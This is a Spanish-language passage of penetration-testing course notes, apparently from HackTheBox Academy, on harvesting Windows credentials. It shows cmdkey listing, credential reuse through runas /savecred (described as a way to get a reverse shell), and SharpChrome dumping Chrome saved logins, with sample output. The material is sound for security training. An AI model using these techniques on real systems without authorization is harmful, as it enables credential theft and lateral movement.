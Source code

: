 Hay muchas otras técnicas que podemos usar para obtener credenciales en un sistema Windows. Esta sección no cubrirá todos los escenarios posibles, pero repasaremos los más comunes.

## Cmdkey Saved Credentials

### Listing Saved Credentials

El comando [cmdkey](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) se puede usar para crear, listar y eliminar nombres de usuario y contraseñas almacenados. Los usuarios pueden desear almacenar credenciales para un host específico o usarlo para almacenar credenciales para conexiones de servicios terminales para conectarse a un host remoto usando Remote Desktop sin necesidad de ingresar una contraseña. Esto puede ayudarnos a movernos lateralmente a otro sistema con un usuario diferente o escalar privilegios en el host actual para aprovechar las credenciales almacenadas de otro usuario.

```r
C:\htb> cmdkey /list

    Target: LegacyGeneric:target=TERMSRV/SQL01
    Type: Generic
    User: inlanefreight\bob
	
```

Cuando intentemos usar RDP al host, se usarán las credenciales guardadas.

![image](https://academy.hackthebox.com/storage/modules/67/cmdkey_rdp.png)

También podemos intentar reutilizar las credenciales usando `runas` para enviarnos una reverse shell como ese usuario, ejecutar un binario o lanzar una consola de PowerShell o CMD con un comando como:

### Run Commands as Another User

```r
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

---

## Browser Credentials

### Retrieving Saved Credentials from Chrome

Los usuarios a menudo almacenan credenciales en sus navegadores para aplicaciones que visitan con frecuencia. Podemos usar una herramienta como [SharpChrome](https://github.com/GhostPack/SharpDPAPI) para recuperar cookies y logins guardados de Google Chrome.

```r
PS C:\htb> .\SharpChrome.exe logins /unprotect

  __                 _
 (_  |_   _. ._ ._  /  |_  ._ _  ._ _   _
 __) | | (_| |  |_) \_ | | | (_) | | | (/_
                |
  v1.7.0


[*] Action: Chrome Saved Logins Triage

[*] Triaging Chrome Logins for current user



[*] AES state key file : C:\Users\bob\AppData\Local\Google\Chrome\User Data\Local State
[*] AES state key      : 5A2BF178278C85E70F63C4CC6593C24D61C9E2D38683146F6201B32D5B767CA0
```